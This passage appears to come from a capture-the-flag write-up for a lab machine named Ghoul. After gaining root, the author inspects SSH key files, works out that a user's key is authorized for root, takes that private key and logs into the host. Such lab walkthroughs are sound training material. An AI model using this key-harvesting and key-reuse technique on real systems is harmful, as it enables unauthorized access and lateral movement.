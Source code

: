## Beyond Root

### SSH Host Access

I wanted to see if I could SSH directly into the main host now that I have root access on it (obviously I could write my own key, but that wouldn’t survive reset). I went to `/root/.ssh/`. There was a key pair:

```

root@Aogiri:~/.ssh# ls
authorized_keys  id_rsa  id_rsa.pub

```

Unfortunately, the public key does not match what’s in `authorized_keys`:

```

root@Aogiri:~/.ssh# cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHK2z6kSC35XV0eoYEcPkwYfvK+IQSnj1pvOUdW89fpFcfOi+o0oDanK7/Oz35E+LazH2bPKcvsMgU8m/FcnrinEWj5Myuguid4+9qlWat8+rZBBjqJybOa56xJJEkjVL9ngxS6CZbVWQ1GyGHcg06MHhdcAk7JQ6WpYaZ/UrZdMPKLqELYWkfp68icV5B2Gz8OGvIisGTL+KtcVL717inreXLp2oifn+RFPefFMX5EhAVxss3AOkUSR0ZsA7t8zOguUMRg4hVqKDFa+Ot0j9E4Ohb48KIOjhglpoYndIbXrq+wsTmdJgDFZczPHn7MkDOl3TvHvC4t9VADS06/90J kaneki@ubuntu
root@Aogiri:~/.ssh# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2cf/aa5KbsomuyTYM9fteUwycArS71DKpXXbrha6KciqD4ZKxKM3cvI71h/Thig5ukvQdUsm1eRKYXgMNkdD/GObATiKQANLwpVAUVmJSi0MvDBzG4f7jLg4fZcIqY3gQCMNP6r/bIs5SlXvrqQ54OdzGAOxqIUzFW7MbFoGyv4SYflhZ5HVF65ylUNvUl3XQOkOk18UQE6O4mtjTeFZlD04hsz6JBtEnsZM39OIMxkX2DeR7/2PSz7bCcwhqteGqeF9RnBDhh86un7tcjgJw8olC4vtPlMCUyxftDNMG2uWRmPIY9ngR4jttVd01pivlrxP4DtZi5n5RvW3RLmBD root@ubuntu

```

I can see the key in `authorized_keys` belongs to kaneki@ubuntu, and the root key is also generated on a host named ubuntu.

There’s a user named kaneki on this box:

```

root@Aogiri:~/.ssh# ls /home/
kaneki

```

And his public key matches:

```

root@Aogiri:~/.ssh# diff -s authorized_keys /home/kaneki/.ssh/id_rsa.pub 
Files authorized_keys and /home/kaneki/.ssh/id_rsa.pub are identical

```

I can grab the private key from the same directory, and ssh in from kali using port 2222:

```

root@kali# ssh -i ~/id_rsa_ghoul_root -p 2222 root@10.10.10.101
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

155 packages can be updated.
0 updates are security updates.

```